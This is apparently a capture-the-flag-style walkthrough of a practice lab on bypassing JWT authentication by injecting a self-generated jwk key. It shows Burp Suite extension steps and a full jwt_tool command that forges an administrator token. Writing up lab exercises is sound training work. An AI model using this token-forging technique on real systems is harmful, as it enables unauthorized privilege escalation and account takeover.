 Title: JWT authentication bypass via jwk header injection
Level: Practitioner 
Desc:  This lab uses a JWT-based mechanism for handling sessions. The server supports the jwk parameter in the JWT header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.
To solve the lab, modify and sign a JWT that gives you access to the admin panel at /admin, then delete the user carlos.
You can log in to your own account using the following credentials: wiener:peter 


![image](https://github.com/user-attachments/assets/d26e42dc-e83a-4dea-8d0f-8549336a476d)

![image](https://github.com/user-attachments/assets/bdabd0e4-e199-4285-827e-33d48887ccb7)


How to attack JWT token with jwk parameter: 
# attempt 1 - use Burpsuite Extension
Here you can create key - please remember to create key with proper algoritm (can be symethric or asymethric)
![image](https://github.com/user-attachments/assets/118e6276-e941-4433-84ca-bc05e7b3035a)

![image](https://github.com/user-attachments/assets/396b1c09-91af-4930-8baf-5591acfd674a)

In the repeater you can find jwt plugin, which gives possibility to make some attack on jwt token, including attacks on jwk parameter:
![image](https://github.com/user-attachments/assets/899a6e1d-bf13-47a9-ae46-24ad846155d2)

Attack - embedded jwk - use created key to sign jwt token
Before that change payload to meet your goals - in my case it was changing sub to administrator

Forged token: 
![image](https://github.com/user-attachments/assets/08af94a6-468e-4c7c-965e-23747d337cb4)

click send to check out if token is valid.

# attempt 2 - using jwt_tool 
First of all I installed this tools using commands:
`sudo apt update && sudo apt install python3 python3-pip
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
pip3 install -r requirements.txt
`
to run the jwt_tool : `python3 jwt_tool.py -h`

There is some useful option in jwt_tool: 
![image](https://github.com/user-attachments/assets/86a586f4-65ca-48bf-bfc1-3acba5f3bf5f)
(-X (exploit) with i parameter (inject inline JWKS))

command to get valid token: 
`python3 jwt_tool.py eyJraWQiOiIxYWZhMmYzOC1hYmQzLTQ0YWYtYjYxNi01MTg3YjJlNDExNzAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzUzMDg3Miwic3ViIjoid2llbmVyIn0.t2JHJdHjvOiMrVx0fUMt_SPIjX-e-KlBrEqFNj0Pv8LnMlXRlCkQxAMzkvDN5IND9_JADwSNlNcpLOjvUdAQTPC57lOpWy26Jyem9FevrXzD-KqhC-r9zKdbuearXs0mvE4FZyK3KtYnrDHwzPtgw4zHdribvqaGiz-Q9MG051ZuWsoZK5Eq98Z1GBLPWkgdw6QCfmtYZLzWHZW3QZ22haio6KhpzsU7c5h27RF4jE-npz8OxnaeslDX8PAly45TEC6zZ613TiIvzZ_NtFSNoPNaCeY0_cUp5ytcFCYAzkXWNlgQ8igB6tcGHErT22WXAtqyVScuuINqE50uVYBKQg -I -pc sub -pv administrator -hc kid -hv jwt_tool -X i`

-hc option says header claim 
-hv options says header value
-pc option says payload claim
-pv option says header value

remember to use jwt_tool as kid parameter because these parameter is used in couple of places.































